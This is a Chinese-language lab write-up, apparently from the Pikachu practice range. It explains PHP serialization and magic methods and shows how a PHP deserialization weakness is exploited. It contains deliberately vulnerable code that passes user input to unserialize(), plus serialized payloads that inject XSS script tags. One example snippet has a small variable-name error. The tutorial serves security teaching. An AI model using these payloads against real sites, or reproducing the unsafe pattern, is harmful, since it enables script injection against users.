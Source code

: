 
# 概述
在理解这个漏洞前,你需要先搞清楚php中serialize()，unserialize()这两个函数。

**serialize()** 函数用于序列化对象或数组，并返回一个字符串。函数序列化对象后，可以很方便的将它传递给其他需要它的地方，且其类型和结构不会改变。如果想要将已序列化的字符串变回 PHP 的值，可使用 unserialize()。

**unserialize()** 函数用于将通过 serialize() 函数序列化后的对象或数组进行反序列化，并返回原始的对象结构。

**序列化serialize()**<br />序列化说通俗点就是把一个对象变成可以传输的字符串,比如下面是一个对象:
```
    class S{
        public $test="pikachu";
    }
    $s=new S(); //创建一个对象
    serialize($s); //把这个对象进行序列化
    序列化后得到的结果是这个样子的:O:1:"S":1:{s:4:"test";s:7:"pikachu";}
        O:代表object
        1:代表对象名字长度为一个字符
        S:对象的名称
        1:代表对象里面有一个变量
        s:数据类型
        4:变量名称的长度
        test:变量名称
        s:数据类型
        7:变量值的长度
        pikachu:变量值
```

**反序列化unserialize()**<br />就是把被序列化的字符串还原为对象,然后在接下来的代码中继续使用。
```
$u=unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}");
echo $u->test; //得到的结果为pikachu
```

序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了PHP中的魔法函数,就会导致安全问题
```
常见的几个魔法函数:
__construct()当一个对象创建时被调用
__destruct()当一个对象销毁时被调用
__toString()当一个对象被当作一个字符串使用
 __sleep() 在对象在被序列化之前运行
__wakeup将在序列化之后立即被调用

漏洞举例:

class S{
    var $test = "pikachu";
    function __destruct(){
        echo $this->test;
    }
}
$s = $_GET['test'];
unser = unserialize($a);

payload:O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
```


# php反序列化漏洞

## 查看关键代码
```php
$html='';
if(isset($_POST['o'])){
    $s = $_POST['o'];
    if(!@$unser = unserialize($s)){
        $html.="<p>大兄弟,来点劲爆点儿的!</p>";
    }else{
        $html.="<p>{$unser->test}</p>";
    }

}
```

可以很直观的看到使用了反序列化函数unserialize()，我们只需要输入序列化语句即可。


## 实战
没什么好说的，直接输入
```
O:1:"S":1:{s:4:"test";s:30:"<script>alert('XMTX')</script>";}
```
![image-20210715150947808.png](./assets/1655881436365-b70b3bed-5f5a-4880-9937-5aeea55fd589.png)

